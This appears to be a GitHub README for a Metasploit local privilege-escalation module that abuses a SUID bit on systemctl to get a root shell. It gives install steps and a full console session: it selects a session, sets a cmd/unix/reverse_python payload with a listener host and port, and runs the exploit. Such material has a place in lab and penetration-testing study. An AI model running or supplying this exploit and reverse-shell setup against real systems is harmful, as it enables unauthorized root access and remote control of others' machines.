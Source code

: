 # SUID systemctl Exploit (MSF - Metasploit exploit module)

### Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl binary to escalate privileges 
  & get a root shell!

### Install
  1 : copy the suid_systemctl.rb to ~/.msf4/modules/exploits/ folder
  
  2 : reload all modules at msf console, type reload_all 
  
  3 : gg.  
  
### Usage 
```
msf5 exploit(linux/local/suid_systemctl) > info

       Name: SUID systemctl Exploit
     Module: exploit/linux/local/suid_systemctl
   Platform: Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  0xl0v3r

Available targets:
  Id  Name
  --  ----
  0   Command payload

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  SESSION      13               yes       The session to run this module on.
  WritableDir  /dev/shm         yes       A directory where we can write files
  systemctl    /bin/systemctl   yes       Path to systemctl executable

Payload information:

Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl 
  binary to escalate privileges & get a root shell!

References:
  https://gtfobins.github.io/gtfobins/systemctl/
  https://github.com/Code-L0V3R/suid_systemctl

msf5 exploit(linux/local/suid_systemctl) > set session 13
session => 13
msf5 exploit(linux/local/suid_systemctl) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/local/suid_systemctl) > set lhost 10.10.15.163 
lhost => 10.10.15.163
msf5 exploit(linux/local/suid_systemctl) > set lport 13372
lport => 13372
msf5 exploit(linux/local/suid_systemctl) > exploit 
```

<img src='systemctl-poc.png' alt="POC">

### References: 
  https://gtfobins.github.io/gtfobins/systemctl/
  

